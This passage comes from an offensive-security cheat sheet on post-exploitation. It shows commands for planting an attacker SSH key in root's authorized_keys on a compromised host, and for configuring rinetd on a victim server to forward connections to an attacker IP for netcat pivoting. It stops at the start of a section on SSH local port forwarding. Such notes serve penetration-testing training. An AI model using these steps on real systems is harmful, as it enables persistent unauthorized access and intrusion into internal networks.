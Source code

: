 ```
root@kali$:Ssh-keygen
root@kali$:cat ~/.ssh/id_rsa.pub
```

Copy the public key In the compromised host, paste the keys in the authorized keys

```
root@kali$:mkdir /root/.ssh
root@kali$:echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD... kali@kali" > /root/.ssh/authorized_keys
```

From the attacking machine, connect to the compromised host

```
root@kali$:ssh root@[ip-compromised]
```

## Lateral Movement aka Network pivoting

### Forwarding connections with netcat from an internal internet-disconnected client through a victimized server:

On the victim server machine, download and install rinted

```
root@kali:~$sudo apt update && sudo apt install rinetd
```

Restart the service

```
root@kali:~$sudo service rinetd restart
```

Edit the config file at cat /etc/rinetd.conf and forward the connections that will be initiated from the internet-disconnected client on someport lets say its 80 that is open on the victim machine on a port opened by your attack machine

```
0.0.0.0	80 [your-attacker-ip] 80
```

This will forward the connection to port 80 on the victim machine to your attacking ip on port 80 given its open on your machine. Next from the victim server machine, connect to the internet-disconnected client through SSH and initiate a netcat connection to your machine from there:

```
root@kali:~$Nc -nvv [vitctim-server-ip-address] 80
```

Port can be changed according to the environment conditions and the open ports on the victim server machine and your attacking machine.

### SSH Local port forwarding

#### Connecting to an internal client on port 445 \[ SMB ] directly from the attacking machine and through a compromised internal server. This command is typed on the attacker machine
